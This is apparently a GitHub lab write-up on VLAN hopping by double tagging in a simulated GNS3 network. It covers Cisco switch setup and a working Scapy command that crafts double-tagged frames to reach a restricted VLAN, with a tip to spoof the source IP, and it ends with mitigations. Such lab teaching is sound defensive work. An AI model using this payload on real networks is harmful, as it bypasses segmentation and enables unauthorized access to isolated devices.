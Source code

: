 # VLAN Hopping: Double Tagging
Double tagging is a Layer 2 network attack technique that exploits the behavior of 802.1Q trunk ports and native VLAN handling on switches. In this attack, a threat actor crafts Ethernet frames with two VLAN tags: an outer tag that matches the native VLAN (commonly VLAN 1) and an inner tag for the target VLAN they wish to access. When the packet is sent from an access port belonging to the native VLAN, the first switch removes the outer tag and forwards the frame onto the trunk. The second switch, upon receiving the now-single-tagged frame, interprets the remaining inner tag and forwards it to the corresponding VLAN. This allows the attacker to send traffic into VLANs they shouldn't have access to, even though their physical port is not assigned to that VLAN. Double tagging is difficult to detect because return traffic typically can't follow the same path back, making it a one-way attack. This is useful for injecting packets into restricted VLANs.

> This lab was inspired by *Practical IoT Hacking* (O'Reilly), Chapter 4: **Network Assessments**, Section *"Hopping into the IoT Network"*. It assumes basic knowledge of GNS3 and networking.

## Lab Topology
![Lab Topo](assets/lab-topo.png)

## Initial Setup
### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration
To keep the lab simple, both **CAMERA_01** and **CENTRAL_SERVER** are implemented using [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (Virtual PC Simulator) appliances. This provides a lightweight way to simulate basic IoT device connectivity within the network. The following command assigns an IP address and saves it across reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration
The **ATTACKER** machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

**Right-click**, then select `Edit Config` from the context menu.

![Attacker Interfaces](assets/attacker-interfaces.png)

### Cisco IOS
**SWITCH1** and **SWITCH2** are virtual Cisco IOS Layer 2 devices. You can use either the IOSvL2 or IOU L2 GNS3 appliance templates for this lab. They should work as standard switches 'out of the box', no configurations necessary. Note that since these are virtualized appliances, they may not behave exactly like their hardware counterparts.

## Verify Connectivity
CAMERA_01 should be able to ping CENTRAL_SERVER.

![Camera Ping](assets/camera-server-ping.gif)

ATTACKER should be able to ping both CAMERA_01 and CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping](assets/attacker-connectivity-verify.gif)

## IOS VLAN Configuration
Create a new VLAN for the IoT devices with an ID of 20. I named it BLUE to match the network topology diagram.
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign BLUE to switchport Et0/1 (CAMERA_01).
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure interface Et0/0 as a static trunk using IEEE 802.1Q encapsulation. This protocol is the industry standard for VLAN tagging.
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan all
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk

  Port        Mode             Encapsulation  Status        Native vlan
  Et0/0       on               802.1q         trunking      1

  Port        Vlans allowed on trunk
  Et0/0       1-4094

  Port        Vlans allowed and active in management domain
  Et0/0       1,20

  Port        Vlans in spanning tree forwarding state and not pruned
  Et0/0       none
</pre>
> Note how the **Native vlan** value is 1 by default.

Repeat these step on SWITCH2 to assign CENTRAL_SERVER to VLAN 20.

## Verify Subnet Segmentation
Assuming the VLAN was configured correctly, CAMERA_01 should still be able to ping CENTRAL_SERVER...

![Camera Ping](assets/camera-server-ping.gif)

<details>
  <summary>
    VLAN Tag Removal Demonstrated...
  </summary>

  > Start a Wireshark capture on the link between SWITCH1 and SWITCH2. Then, initiate another ping from CAMERA_01 to CENTRAL_SERVER. In the `Packet Details` pane, observe that the switch inserts a 4-byte 802.1Q VLAN tag immediately after the Ethernet header, indicating the frame originated from a VLAN 20 access port.
  > 
  > ![Ping VLAN Tag](assets/wireshark-switch1-switch2-annotated.png)
  > 
  > As the packet is forwarded to its destination, SWITCH2 removes the VLAN tag before delivering it to the receiving device.
  >
  > ![Ping VLAN Tag Removed](assets/wireshark-switch2-server.png)
</details>

However, ATTACKER should no longer be able to ping CAMERA_01 or CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping Fail](assets/attacker-ping-fail.gif)

As can be seen, the ICMP echo requests never reach CENTRAL_SERVER.

![](assets/wireshark-server-segmentation.png)

## Exploit
Use Scapy to craft a double-tagged ICMP Echo Request packet. The outer VLAN tag should be set to the native VLAN (`vlan=1`), which will be stripped by the first switch, while the inner tag (`vlan=20`) corresponds to the VLAN of the intended target. This technique allows the packet to traverse VLAN boundaries and reach the destination, bypassing segmentation controls. However, because the attacker remains on the wrong VLAN, ICMP Echo Replies will not be returned, rendering this a one-way communication exploit.

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
</pre>
> Note, for further obfuscation, you can also change the source IP address of the packet.
> `IP(src=<ip_address>, dst=<ip_address>)`

![](assets/wireshark-double-tagging.gif)

<details>
  <summary>
    Closer Examination
  </summary>

  > Capture between ATTACKER and SWITCH1. The crafted packet has two IEEE 802.1Q tags as it is sent to the switch.
  > 
  > ![](assets/wireshark-dt-request1-annotated.png)
  > 
  > Capture between SWITCH1 and SWITCH2. SWITCH1 strips the outer tag, leaving the second tag to be forwarded to SWITCH2.
  >
  > ![](assets/wireshark-dt-request2-annotated.png)
  >
  > Capture between SWITCH2 and CENTRAL_SERVER. The request is forwarded to its target in VLAN 20, where the second tag is also removed.
  >
  > ![](assets/wireshark-dt-request3.png)
  >
  > Capture between CENTRAL_SERVER and SWITCH2. The target receives the Echo Request, and transmits a reply in response.
  > 
  > ![](assets/wireshark-dt-response1.png)
  >
  > Capture between SWITCH2 and SWITCH1. Since the reply came from a VLAN 20 access port, it is tagged before being forwarded to SWITCH1.
  >
  > ![](assets/wireshark-dt-response2-annotated.png)
  >
  > Capture betweeen SWITCH1 and ATTACKER. The Echo Reply does not know ATTACKER is in VLAN 1, so it never reaches its destination.
  > 
  > ![](assets/wireshark-dt-response3.png)
</details>

## Mitigations
Double tagging attacks can be mitigated by:
- Setting the native VLAN to an unused VLAN
- Configuring trunks to tag native VLANs (`vlan dot1q tag native`)
- Avoiding VLAN 1 for any user-access ports
- Shutdown any unused ports
